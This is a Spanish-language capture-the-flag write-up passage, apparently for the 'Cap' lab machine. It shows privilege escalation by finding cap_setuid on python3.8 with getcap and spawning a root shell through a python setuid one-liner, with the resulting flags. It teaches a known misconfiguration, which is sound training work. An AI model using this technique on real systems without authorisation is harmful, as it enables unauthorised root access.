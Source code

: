 ```shell
user.txt
nathan@cap:~$ cat user.txt 
d5737f158e21c61...
```

# Privilege Escalation
Tras enumerar básicamente la máquina, al llamarse `cap` podemos ver las capabilities que tienen los binarios y...

```shell
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

## Abusing `cap_setuid`
Vemos que `python3.8` tiene la capability `cap_setuid` , así que en este punto ya esta máquina es un regalo.

Esta capability permite a un proceso cambiar su ID de usuario efectivo (`UID`) arbitrariamente. En un sistema típico de Unix, esta capacidad está relacionada con la administración de permisos y la identificación de usuarios.

Para escalar privilegios podemos leer este apartado en [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities)

Y simplemente podemos escalar privilegios utilizando el binario de python para cargar librería `os` y cambiando nuestro UID a 0 (root) para acto seguido invocar una shell.

```shell
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

Podemos leer la flag de `root`
```shell
root@cap:/root# cat root.txt
0d33dd27c2c26....
```

¡Y ya estaría!

Happy Hacking! 🚀
